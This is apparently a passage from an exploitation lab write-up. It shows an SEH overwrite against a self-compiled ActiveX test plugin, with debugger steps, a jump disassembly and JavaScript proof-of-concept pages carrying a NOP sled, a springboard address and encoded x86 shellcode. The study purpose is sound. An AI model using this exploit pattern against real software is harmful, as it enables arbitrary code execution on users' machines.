 ![address](https://s3.ax1x.com/2020/11/24/DNFQOA.png)  
![SEH chain](https://s3.ax1x.com/2020/11/24/DNAZxe.png)  
![Exception address](https://s3.ax1x.com/2020/11/24/DNAV2D.png)  

- Using the `OllyFindAddr` plugin's `Overflow return address->Find CALL/JMP[EBP+N]` option to find the instruction, this experiment found the `CALL [EBP+0xC]` of `0x300B2D1C` as a springboard, as shown in the figure

![springboard](https://s3.ax1x.com/2020/11/24/DNAHQe.png)

- According to the previous calculation put the springboard address into the shellcode corresponding location, save the POC page, test change the function as follows

```js
<script>
	var s = "\u9090";
	while (s.length < 138)
	{
		s += "\u9090";
	}
	s += "\u2D1C\u300B";
	test.test(s);
</script>
```

- It is said in the book that at this time the trigger except 0 exception will be transferred to the shellcode springboard, but it seems that the operation is not written in advance, so again compile the plug-in, in the test function to add except 0 operation
- At this point, the successful break at the springboard, the EBP register value is `0x01DCF150`, according to the springboard instructions will jump to the springboard address before the 4 bytes, where you can add a jump, and shellcode to the back, as follows

```x86asm
01DCF60C   /EB 06           jmp short 01DCF614			; jump
01DCF60E   |90              nop
01DCF60F   |90              nop
01DCF610   |1C 2D           sbb al,0x2D					; addr
01DCF612   |0B30            or esi,dword ptr ds:[eax]	; addr
01DCF614   \90              nop							; shellcode payload start
```

- The final test function is shown below

```js
<script>
	var s = "\u9090";

	while (s.length < 136)
	{
		s += "\u9090";
	}

	s += "\u06EB\u9090";
	s += "\u2D1C\u300B";
	s += "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33\u6853\u616B\u6F6F\u4D68\u7369\u8B61\u53c4\u5050\uff53\ufc57\uff53\uf857";

	test.test(s);
</script>
```

